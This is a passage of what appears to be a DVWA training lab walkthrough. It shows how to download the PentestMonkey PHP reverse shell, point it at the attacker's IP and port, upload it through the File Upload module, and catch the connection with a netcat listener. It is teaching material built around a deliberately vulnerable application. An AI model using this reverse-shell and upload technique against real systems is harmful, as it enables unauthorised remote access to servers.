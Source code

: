 3. **Login to DVWA**:
   - Default credentials:
     ```
     Username: admin
     Password: password
     ```

4. **Set Security Level**:
   - Navigate to **DVWA Security**.
   - Set the security level to **Low**.

---

### **Task 2: Preparing the Reverse Shell Payload**
1. **Generate a PHP Reverse Shell**:
   - Use the **PentestMonkey PHP Reverse Shell**:
     ```bash
     wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
     ```

2. **Edit the Reverse Shell Script**:
   - Open the script in a text editor:
     ```bash
     nano php-reverse-shell.php
     ```
   - Modify the following lines:
     ```php
     $ip = 'YOUR_IP'; // Change this to your Kali Linux IP
     $port = 4444;    // Change this to the port you will use for the listener
     ```
   - Replace `YOUR_IP` with your Kali Linux IP address.

3. **Save the Script**:
   - Save the file as `shell.php`.

---

### **Task 3: Uploading the Reverse Shell**
1. **Navigate to the File Upload Functionality**:
   - In DVWA, click on the **File Upload** module in the navigation menu.

2. **Upload the Malicious File**:
   - Use the file upload form to upload `shell.php`.
   - Note the file path or URL where the uploaded file is stored.

3. **Verify the Upload**:
   - Access the uploaded file in your browser to ensure it was successfully uploaded:
     ```
     http://<dvwa_ip>/dvwa/hackable/uploads/shell.php
     ```

---

### **Task 4: Setting Up the Listener**
1. **Start a Netcat Listener**:
   - Open a terminal on Kali Linux and run:
     ```bash
     nc -lvnp 4444
     ```
   - Ensure the port matches the one set in the reverse shell script.
